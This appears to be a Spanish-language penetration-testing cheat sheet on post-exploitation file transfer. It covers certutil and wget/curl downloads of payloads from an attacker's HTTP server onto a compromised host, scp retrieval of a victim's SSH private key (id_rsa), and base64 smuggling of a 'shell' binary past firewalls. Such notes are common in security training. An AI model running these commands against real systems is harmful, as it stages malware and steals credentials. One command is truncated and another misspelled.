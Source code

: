 # From Linux to Windows

1. Creamos un servidor simple con python en la ruta donde esté el fichero que queremos compartir: `python -m http.serve 80`
2. En la máquina comprometida windows, usamos el siguiente comando para hacer una petición:
		
	![[Pasted image 20250210011041.png]]
`certutil -urlcache -f http://ip/payload.exe payload.exe`

# From Linux to Linux

1. Creamos servidor simple con python.
	`python -m http.serve 80`
2. Hacemos una petición desde la máquina víctima:
	2.1 wget http://ip-atacante/file.txt
	2.2 curl -X GET http://



NOTA : Con Python version<3 usar :
python -m SimpleHTTPServer 8000

## Transfer files via SSH
#### Transferir a la máquina atacante
`
`scp <user>@<ip>:<path_to_file> <path where store file>`
Example:
`scp student@10.10.10.1:~/.ssh/id_rsa .` -> Esto descarga en el directorio actual la id_rsa del home del usuario student.
``
#### Transferir a maquina victima
```bash
scp -P [puerto] [archivo_local_a_transferir] [usuario]@[host]:[ruta_remota_destino]
```

Ejemplo:

```bash
scp -P 39714 [archivo_local_a_transferir] user1@83.136.253.59:/tmp/[nombre_en_destino]
```

### **3️⃣ Transferir directorios completos**

Para copiar una carpeta y todo su contenido, añade la opción `-r` (**recursivo**):

**Desde la víctima hacia la atacante:**

bash

`scp -r [usuario]@[ip_remota]:[ruta_directorio_remoto] [ruta_local_destino]`

Ejemplo:

bash

`scp -r student@10.10.10.1:/var/www/html .`

**Desde la atacante hacia la víctima:**

bash

`scp -P [puerto] -r [directorio_local] [usuario]@[ip_remota]:[ruta_remota_destino]`

Ejemplo:

bash

`scp -P 39714 -r tools user1@83.136.253.59:/opt/tools`

## 3️⃣ Usando `base64` (cuando hay restricciones de red/firewall)

Este método es ideal para **ficheros binarios o scripts** cuando no es posible usar `wget`, `curl` o `scp`.

**En la máquina atacante (codificar en base64):**
```bash
base64 archivo -w 0
```
📌 `-w 0` evita saltos de línea.

**Uso del portapapeles:**  
- Copia el texto resultante (string base64) al portapapeles.  
- Pégalo en la sesión de shell de la máquina víctima dentro de un comando `echo` para reconstruir el archivo.

**En la máquina víctima (decodificar):**
```bash
echo "cadena_base64" | base64 -d > archivo
chmod +x archivo
```

**Ejemplo completo con binario `shell`:**
```bash
# Atacante
base64 shell -w 0 > shell.b64

# Copiar contenido de shell.b64 al portapapeles y pegar en la víctima:

# Víctima
echo "AQUÍ_TU_CADENA_BASE64" | base64 -d > shell
chmod +x shell
```

💡 Si el archivo es muy grande, considera partirlo en varias partes antes de codificarlo.

---

## 4️⃣ Validar la transferencia

**Comprobar el tipo de archivo:**
```bash
file archivo
```

**Verificar integridad con hash:**
```bash
# Atacante
md5sum archivo

# Víctima
md5sum archivo
```
Si el hash coincide, la transferencia fue correcta.

---

## 📌 Resumen rápido

| Método      | Requisitos | Dirección | Pros | Contras |
|-------------|------------|-----------|------|---------|
| `wget`/`curl` | Puerto abierto, HTTP server | Atacante → Víctima | Fácil, rápido | Víctima debe tener wget o curl |
| `scp`       | Credenciales SSH | Bidireccional | Seguro, cifrado | Requiere SSH abierto |
| `base64`    | Ninguno (solo shell) | Bidireccional | Funciona con binarios y sin red directa | Lento, requiere copy/paste grande |

	


		
